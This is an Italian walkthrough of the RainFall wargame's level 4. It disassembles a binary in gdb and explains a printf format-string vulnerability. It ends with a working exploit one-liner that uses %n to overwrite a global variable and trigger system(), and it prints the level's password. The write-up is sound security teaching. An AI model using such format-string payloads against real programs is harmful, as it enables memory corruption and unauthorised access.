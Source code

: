 # Level 4
Per prima cosa controlliamo le stringhe presenti nell'eseguibile:
```
level4@RainFall:~$ readelf -p '.rodata' level4

String dump of section '.rodata':
  [     8]  /bin/cat /home/user/level5/.pass
```
e ora passiamo a `gdb`:
```
level4@RainFall:~$ gdb -q level4
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  p
0x08048457  n
0x080484a7  main
0x080484c0  __libc_csu_init
0x08048530  __libc_csu_fini
0x08048532  __i686.get_pc_thunk.bx
0x08048540  __do_global_ctors_aux
0x0804856c  _fini
(gdb) disass main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
(gdb) disass n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   %ebp
   0x08048458 <+1>:     mov    %esp,%ebp
   0x0804845a <+3>:     sub    $0x218,%esp
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
(gdb) disass p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```
Sono presenti tre funzioni da dove analizzare: `main`, `n` e `p`.

### Funzione `main`
Chiama la funzione `n`

### Funzione `n`
Riserva 0x218 (536) byte nello stack e chiama le funzioni `fgets` e `p` nel
seguente modo:
```
fgets(s, 512, stdin);
p(s);
```
per poi controllare nella variabile globale posizionata all'indirizzo `0x8049810`
se contiene il numero 0x1025544 (16930116), se così fosse allora esegue:
```
system("/bin/cat /home/user/level5/.pass");
```
altrimenti termina la funzione.

### Funzione `p`
Chiama la funzione `printf` stampando la stringa che gli viene passata come
argomento.

### Soluzione
Dunque come nel livello precedente bisogna trovare l'offset dell'inizio della
stringa inserita in printf e poi stampare il numero di caratteri giusto per
passare all'esecuzione della funzione `system`:
```
python -c 'print ("\x10\x98\x04\x08" + "%16930112d%12$n")' | ./level4
```
Le uniche differenze rispetto all'exploit del livello precedente sono:
1. Uso `12$` così che `%n` prenda direttamente il dodicesimo argomento così evito di scrivere 11 `%x`
2. Uso `%16930112d` per stampare il restante numero di caratteri invece di scrivere 16930112 volte un qualsiasi carattere

### Output:
```
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```